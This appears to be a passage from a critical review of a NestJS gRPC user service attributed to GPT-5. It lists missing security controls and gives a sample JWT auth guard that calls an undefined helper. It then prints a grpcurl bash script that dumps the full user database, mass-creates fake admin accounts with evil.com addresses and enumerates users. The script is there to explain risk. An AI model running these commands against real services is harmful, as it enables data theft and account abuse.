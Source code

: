 **GPT-5's Criminal Negligence:**
1. **Rejected Authentication Framework:** NestJS provides comprehensive auth guards - GPT-5 used NONE
2. **Ignored Role-Based Access:** No distinction between admin, user, or anonymous access
3. **Exposed Raw Entity Data:** Returned database entities directly instead of DTOs
4. **No Session Management:** Zero consideration for user sessions or token validation

**GPT-5's Complete Security Architecture Failure:**
```typescript
// GPT-5 should have implemented this security foundation:
@Injectable()
export class AuthGuard implements CanActivate {
  constructor(private jwtService: JwtService) {}
  
  async canActivate(context: ExecutionContext): Promise<boolean> {
    const request = context.switchToRpc().getData();
    const token = this.extractTokenFromMetadata(request);
    
    try {
      const payload = await this.jwtService.verifyAsync(token);
      request.user = payload;
      return true;
    } catch {
      throw new UnauthorizedException('Invalid token');
    }
  }
}

// GPT-5 delivered ZERO authentication infrastructure
```

**The Devastating Attack Surface GPT-5 Created:**
```bash
#!/bin/bash
# GPT-5's implementation allows complete system compromise:

# 1. Download entire customer database (no authentication required)
grpcurl -plaintext -d '{"pagination":{"page_size":999999}}' \
  target:50051 users.v1.UsersService/ListUsers > customer_database.json

# 2. Create unlimited admin accounts
for i in {1..1000}; do
  grpcurl -plaintext -d "{
    \"email\":\"admin$i@evil.com\",
    \"name\":\"Fake Admin $i\",
    \"password\":\"123\"
  }" target:50051 users.v1.UsersService/CreateUser
done

# 3. Mass user enumeration for targeted attacks
grpcurl -plaintext -d '{"email":"ceo@company.com"}' \
  target:50051 users.v1.UsersService/GetUser
```
